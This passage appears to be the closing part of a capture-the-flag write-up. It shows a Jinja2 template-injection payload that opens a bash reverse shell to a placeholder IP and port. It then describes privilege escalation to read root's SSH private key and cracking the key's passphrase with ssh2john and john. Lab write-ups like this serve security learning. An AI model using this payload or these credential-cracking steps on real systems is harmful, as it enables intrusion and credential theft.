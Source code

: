 Lets get a reverse shell:
`{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read() }}`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916182929.png)

Spawning a stable shell:

[[Shell Tricks]]

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916183201.png)
Now that we've got a stable shell, lets start privilege escalation

## Privilege Escalation

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916183323.png)


#### GTFOBINS

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916184431.png)
Lets use this to read id_rsa file from root:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916184500.png)
We can pass it to a file and download that file to our local machine:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916184542.png)

We can decrypt id_rsa passphrase using ssh2john and john

`ssh2john id_rsa > hash`
`john hash --wordlist=/usr/share/wordlists/rockyou.txt
`
When we do it, we get passphrase `honda1`

Entering ssh:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240916185011.png)
And just like that, we finished this ctf!




